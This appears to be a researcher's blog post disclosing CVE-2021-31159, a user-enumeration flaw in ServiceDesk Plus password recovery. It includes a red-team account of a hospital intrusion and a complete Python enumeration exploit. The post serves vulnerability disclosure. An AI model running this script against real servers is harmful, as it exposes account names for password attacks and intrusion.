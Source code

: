```yaml
---
layout: post
description: Finding and abusing CVE-2021-31159 for ServiceDesk Plus user enumeration 
title: Finding CVE-2021-31159 for ServiceDesk Plus enumeration 
excerpt_separator: <!--more-->
---
```


This vulnerability takes advantage of ServiceDesk Plus having different output in the password recovery functionality: if the user exists it returns a message claiming an email has been sent but if it does not exist the message is constant.

<!--more-->

Knowing this, it is possible to enumerate accounts in the application or, even better, accounts of an Active Directory if AD authentication is enabled. Very useful when the application is open to the internet and the format of the AD user accounts (for example, name initial + surname) is known.


---------------------------------------------------


## Finding and exploiting it

I found this vulnerability during a Red Team assesment in which there was an outdated ServiceDesk Plus server open to the Internet. In the login page, these servers allow to use local authentication or an AD domain (in this case I changed it to HOSPITAL.DOMAIN):

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image0.png?raw=true)

<br>

In the "forgot password" page, if the user does not exist you get a message like this:

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image1.png?raw=true)

<br>

This message is constant, and so has the same size, but it changes if the username is correct (in that case, it states the user will receive an email to update the password). So we can enumerate users, both local and in a domain. If the server is exposed to the Internet, such as in this case, we can enumerate the internal domain users!

I tested typical AD username formats using the most common Spanish surnames (this was a hospital in Spain), such as (name + surname) or (first letter of name + surname). I was lucky with the latter, using the initial "d" and the very common surname "García":

![Login 2](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image2.png?raw=true)

<br>

Then I tested all the alphabet using Burp:

![Burp](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image3.png?raw=true)

<br>

Nice, we got some correct users! We can use the Python library "requests" and get the same results:

![Python example](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image4.png?raw=true)


After this, I created a list with the common surnames in Spain ([https://gist.github.com/ricardojoserf/a4d7c62f6bcae19026cb5a3e72d2e4cd](https://gist.github.com/ricardojoserf/a4d7c62f6bcae19026cb5a3e72d2e4cd)) and enumerated many users. Luckily for me, they used the same format for the emails so I could get the credentials of one employee using other tool I created some time ago ([adfsbrute](https://github.com/ricardojoserf/adfsbrute)) and testing a very weak password (with the format *Companyname123*). From there, I could dump all the emails from Azure, connect to the VPN... a succesful Red Team assesment, abusing such a silly vulnerability!


## Creating the exploit

Now it is time to automate this attack using Python.

#### Creating the parser

First we create a parser with the library "argparse" to have the following parameters:

- domain: The AD Domain to attack
- target: The target url
- usersfile: File containing list of users
- outputfile (optional): File to store the correct users

```
def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args
```


#### Creating the main function and getting the parameters values

Next, we will define the main function, which will be the first one to run, and grab the content of the parameters calling the already defined function "get_args":

```
def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile
```

#### Getting the "incorrect size"

First we will test a user that will never exist to check the bytes in the response from the "forgot password" functionality. We will compare this size with different users: if the user does not exist, the size will be this.

```
resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
incorrect_size = len(resp_incorrect.content)
print("Incorrect size: %s"%(incorrect_size))
```

#### Finding correct users 

To check the list of users from te file, we will open it and create a list with each username from the file:

```
users = open(usersfile).read().splitlines()
```

Then we will iterate each user and create a request to the "forgot passsword" functionality, and checking the response size to find if it exists. If it does, it is added to the "correct_users" list:

```
correct_users = []
for u in users:
	resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
	valid = (len(resp.content) != incorrect_size)
	if valid:
		correct_users.append(u)
	print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))
```

Finally, we will write the correct users to a file and print each of them:

```
print("\nCorrect users\n")
with open(outputfile, 'w') as f:
	for user in correct_users:
		f.write("%s\n" % user)
		print("- %s"%(user))
	print("\nResults stored in %s\n"%(outputfile))
```


#### Final exploit

The final result is [this script]([https://github.com/ricardojoserf/CVE-2021-31159/blob/main/exploit.py):

```
import argparse
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args


def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile

	s = requests.session()
	s.get(url)
	resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))

	correct_users = []
	users = open(usersfile).read().splitlines()
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))

	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))


if __name__ == "__main__":
    main()
```

## References

- Zoho announcement thanking for the report: [https://www.manageengine.com/products/service-desk-msp/readme.html#10519](https://www.manageengine.com/products/service-desk-msp/readme.html#10519)
- Github repo: [https://github.com/ricardojoserf/CVE-2021-31159](https://github.com/ricardojoserf/CVE-2021-31159)
- Nist: [https://nvd.nist.gov/vuln/detail/CVE-2021-31159](https://nvd.nist.gov/vuln/detail/CVE-2021-31159)
- Mitre: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159)
- Packetstormsecurity: [https://packetstormsecurity.com/files/163192/Zoho-ManageEngine-ServiceDesk-Plus-9.4-User-Enumeration.html](https://packetstormsecurity.com/files/163192/Zoho-ManageEngine-ServiceDesk-Plus-9.4-User-Enumeration.html)

